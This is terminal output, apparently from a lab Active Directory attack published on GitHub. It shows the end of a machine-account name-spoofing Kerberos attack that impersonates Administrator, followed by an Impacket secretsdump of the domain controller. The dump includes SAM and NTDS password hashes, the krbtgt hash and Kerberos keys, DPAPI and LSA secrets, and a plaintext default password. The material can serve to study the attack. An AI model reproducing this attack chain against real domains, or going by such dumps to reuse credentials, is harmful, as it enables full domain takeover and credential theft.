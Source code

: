 ```
[*] Resting the machine account to SAMTHEADMIN-78$
[*] Restored SAMTHEADMIN-78$ sAMAccountName to original value
[*] Using TGT from cache
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] Saving ticket in Administrator.ccache
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0xf55f3cbfbd2cd42d781e383341084ff5
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cb136a448767792bae25563a498a86e6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
JAS502N\DC01$:plain_password_hex:2f94db0890b6a5f907720def3b4b09c3b55be82100bd08ca56f9a2ad1ecaeef2be4ee85a48c1b8803711c66e0249a73d775e9a0d1e876dd02cb8fb416b2675ae70cdb98f7470db69e45f269b6112e27c089e81bc76bc44b785b125e77a24cd72b9f9f94147a7f0b1beb10aa8a27a708abc75657b797c9885948bae7930bbe94ee7df51982bf32e2e8fad30851cd271f3ad8a0307c913862565d1245752ae11d58271dea21d4c352ab8688da57e576920e17dc43ff4448a42a367c28d6bca4a994bafc1adbeec7829dc1f0c72cfb91c64a16373c4999af197c1d6bd5b24fb1713cb022573fe76ad43350fa2f3b140cb78
JAS502N\DC01$:aad3b435b51404eeaad3b435b51404ee:e7907d9bd5c9af5b3656ba4d25f6598a:::
[*] DefaultPassword
JAS502N\John:Admin@1234
[*] DPAPI_SYSTEM
dpapi_machinekey:0x82e26ecbad0aebdd842f94c0ffb143a7c14a5db5
dpapi_userkey:0xa4844cdd37f4cbf8ae8124d8dd4e5c3f6ca6464c
[*] NL$KM
 0000   9E D7 B9 42 7C F7 60 16  5F EF FF B0 70 59 2E 3D   ...B|.`._...pY.=
 0010   C7 42 46 35 1A C7 32 F5  D8 32 2D A7 28 32 85 27   .BF5..2..2-.(2.'
 0020   63 CB 07 0E 69 A8 B0 FC  4D 28 27 6E 83 FE 3B C9   c...i...M('n..;.
 0030   A5 95 43 A6 E3 A7 51 5B  1D 2B 47 D1 F8 E8 8A E3   ..C...Q[.+G.....
NL$KM:9ed7b9427cf760165fefffb070592e3dc74246351ac732f5d8322da72832852763cb070e69a8b0fc4d28276e83fe3bc9a59543a6e3a7515b1d2b47d1f8e88ae3
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cb136a448767792bae25563a498a86e6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b6b30cfccbbdb8fb0794ec82a66d72c2:::
John:1001:aad3b435b51404eeaad3b435b51404ee:570a9a65db8fba761c1008a51d4c95ab:::
DC01$:1002:aad3b435b51404eeaad3b435b51404ee:e7907d9bd5c9af5b3656ba4d25f6598a:::
SAMTHEADMIN-44$:1105:aad3b435b51404eeaad3b435b51404ee:9b8943da3e4d08bb4eeda6083b43f4df:::
SAMTHEADMIN-72$:1106:aad3b435b51404eeaad3b435b51404ee:2b686a3365e02a29f6285a3a9f13c488:::
SAMTHEADMIN-62$:1107:aad3b435b51404eeaad3b435b51404ee:a7668490eafcc881b4a3c34df81dea3e:::
SAMTHEADMIN-91$:1108:aad3b435b51404eeaad3b435b51404ee:e7587bf6d6698070d38a5a5676fc55cb:::
SAMTHEADMIN-67$:1109:aad3b435b51404eeaad3b435b51404ee:04c1979c68b6ff4f1f5d311d5d4d3c39:::
SAMTHEADMIN-78$:1110:aad3b435b51404eeaad3b435b51404ee:bd78fe7660b5d9acf9316b9a4241cbae:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:027944be67b0bca525b31477ad6670e6098d5c02603b5c65b6f486612c0a4b38
krbtgt:aes128-cts-hmac-sha1-96:2e7d56e7e389a2fee932e0c30d1d0c85
krbtgt:des-cbc-md5:e9b008aba2fe104c
John:aes256-cts-hmac-sha1-96:d6d44e5dd489893fbf5a260aafd211690aec432ea8c10ca62153b8b4fd596031
John:aes128-cts-hmac-sha1-96:1d8605001c381bb41cec82ce88e21946
John:des-cbc-md5:153b16c28c43ab61
DC01$:aes256-cts-hmac-sha1-96:122296fbd80141258ff85999d1a51a47567444a2674e214f497160947fc03705
DC01$:aes128-cts-hmac-sha1-96:da332729028749b391eb63617e179638
DC01$:des-cbc-md5:15df37f4a4d39232
SAMTHEADMIN-44$:aes256-cts-hmac-sha1-96:2253c5bb37613bb8c0aacb144e794d88e31ad4ca427375af539875755a6849f7
SAMTHEADMIN-44$:aes128-cts-hmac-sha1-96:78c325052c7532165e61cffe11fd0db3
SAMTHEADMIN-44$:des-cbc-md5:581ffdab3101d979
SAMTHEADMIN-72$:aes256-cts-hmac-sha1-96:d74516f3892ea272feee8d8b13fe82372b4368aa717a28ad40b89f1233743fa6
```